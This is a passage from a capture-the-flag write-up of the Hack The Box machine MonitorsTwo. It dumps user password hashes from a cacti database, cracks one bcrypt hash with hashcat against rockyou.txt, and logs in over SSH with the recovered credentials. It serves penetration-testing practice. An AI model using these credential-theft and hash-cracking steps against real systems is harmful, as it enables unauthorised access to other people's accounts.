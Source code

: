 ```console
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | 
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | 
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | 

3 rows in set (0.001 sec)
```

I only included the relevant enumeration of the mysql databases. In short, we were able to log in and see the different databases. The `cacti` database was not a standard database so we used that. I then ran `show tables;` to see all the tables in cacti and there was a lot (111). There were a few with `auth` in the title but the one that ended up being 'the' one to use was `user_auth`. From there we got two usernames and hashes.

### Crack that Hash

I attempt to crack the hash of both `admin` and `marcus` however only marcus finished in a timely matter so I cancelled the admin one.

#### Marcus Hash

I used `-m 3200` because the hash was recognized as a bcrypt hash on the first admin run-through during auto selection. We can confirm that on the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example\_hashes).

```powershell
PS C:\temp\hashcat-6.2.6> .\hashcat.exe -m 3200 C:\temp\marcus.txt C:\temp\wordlists\rockyou.txt
hashcat (v6.2.6) starting
...SNIP

Dictionary cache hit:
* Filename..: C:\temp\wordlists\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384


$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey

```

### SSH Access

`marcus:funkymonkey`, we can now try to use those credentials to ssh into the machine:

```console
toasty@parrot$ sshpass -p funkymonkey ssh marcus@10.10.11.211
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)
...SNIP

You have mail.
Last login: Sat Aug 26 07:10:21 2023 from 10.10.14.231
marcus@monitorstwo:~$ 
```
